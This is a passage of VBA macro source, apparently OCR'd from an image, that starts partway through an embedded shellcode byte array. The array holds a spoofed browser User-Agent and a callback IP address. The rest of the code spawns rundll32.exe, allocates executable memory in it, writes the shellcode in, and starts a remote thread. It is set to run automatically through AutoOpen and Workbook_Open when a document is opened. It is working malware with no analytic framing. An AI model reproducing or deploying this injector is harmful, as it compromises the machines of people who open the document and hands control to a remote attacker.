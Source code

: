 ```vba
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,80,0,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,77,90,74,107,0,98,-44,67,-79,-128,-79,-72,102,87,-25,-38,70,-52,39,7,48,108,64,-119,79,-118,-8,-88,-88,-9,-22,-123,40,116,18,81,9, _
-18,21,65,-52,-14,65,-121,95,-98,-15,-126,-110,-51,110,-94,-44,-100,54,-52,49,101,-44,10,-104,-82,53,-98,-66,15,-4,116,-64,113,22,-70,-79,98,-66,91,15, _
82,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,53,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,57,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,54,46,49,59,32,87,105,110,54,52,59,32,120,54,52,59,32,84,114,105, _
100,101,110,116,47,53,46,48,41,13,10,0,-95,68,89,-127,102,-21,83,-28,-51,-61,-127,-106,-35,106,-19,119,107,112,-107,-3,-53,-49,-63,106,14,-25,-93,42, _
-90,67,-122,-58,67,30,58,-100,-123,-70,-91,-110,-56,-96,-99,32,121,-89,-59,-119,4,-2,0,-35,30,-34,91,115,19,58,14,38,-127,1,39,43,-93,46,-38,-125, _
-68,4,9,7,-17,-95,-109,-88,87,83,98,-89,8,109,119,-100,119,68,-9,54,9,48,-39,-25,78,-108,43,-12,54,-115,-59,-121,-113,78,112,-83,47,-35,-19,49, _
38,-82,-82,90,75,100,-44,-108,-114,1,35,-119,80,89,-15,0,33,-112,-61,-17,83,-99,14,-113,-107,-46,40,55,87,-40,-13,-67,-27,-39,-110,21,33,32,-58,-6, _
32,-94,-39,-28,-41,115,81,-89,-6,-76,-48,-27,-127,126,115,-97,-62,24,-30,-99,63,-118,34,-37,-17,-76,-58,-75,53,119,-76,103,100,118,121,22,55,-51,85,76, _
-37,-105,71,85,-72,55,79,-13,80,-56,-30,30,-93,-84,56,-45,107,-23,39,120,-115,-87,127,-102,-63,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,49,57,50,46,49,54,56,46,50,46,49,53,56,0,18,52,86,120)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```
